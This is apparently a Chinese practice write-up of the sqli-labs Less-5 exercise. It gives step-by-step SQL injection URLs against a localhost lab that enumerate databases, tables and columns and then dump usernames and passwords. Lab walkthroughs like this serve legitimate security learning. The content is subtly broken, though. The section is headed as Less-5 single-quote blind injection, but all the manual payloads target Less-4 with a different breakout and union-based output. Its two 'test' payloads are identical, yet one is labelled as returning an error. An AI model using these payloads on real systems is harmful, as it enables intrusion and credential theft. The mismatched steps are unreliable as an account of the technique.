

## 练习开始


less-5是GET单引号盲注，位置在where之后且后跟limit


核心的语句在于
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

```
和less-1的内容是一样的，不同之处在于php不再会打印sql查询的内容，只回显对或错

测试用的payload
```
' and 1=1 %23 返回正确
' and 1=1 %23 返回错误

```


**%23和--+等价**


## 手工注入

###判断列数

`
http://127.0.0.1/Less-4/?id=1") order by 3 %23
`


### 判断当前数据库数量

`
http://127.0.0.1/Less-4/?id=-1") union select 1,count(*),3 from information_schema.schemata %23
`


判断第一个数据库
`
http://127.0.0.1/Less-4/?id=-1")  union select 1,schema_name,3 from information_schema.schemata limit 0,1 %23
`

通过修改limit之后的第一个参数逐步遍历数据库

`
http://127.0.0.1/Less-4/?id=-1")  union select 1,schema_name,3 from information_schema.schemata limit 1,1 %23
`

### 检查security数据库的表

`
http://127.0.0.1/Less-4/?id=-1")  union select 1,count(*),3 from information_schema.tables where table_schema='security' %23
`


通过修改limit之后的第一个参数逐步遍历数据库的表
`
http://127.0.0.1/Less-4/?id=-1")  union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1  %23
`



### 检查security数据库中user表的列

判断列的数量
`
http://127.0.0.1/Less-4/?id=-1")  union select 1,count(*),3 from information_schema.columns where table_schema='security' and table_name="users" %23
`


检查列的内容
`
http://127.0.0.1/Less-4/?id=-1")  union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name="users"  limit 0,1 %23
`


### 爆出数据

`
http://127.0.0.1/Less-4/?id=-1")  union select 1,concat_ws(":",username,password),3 from users %23
`


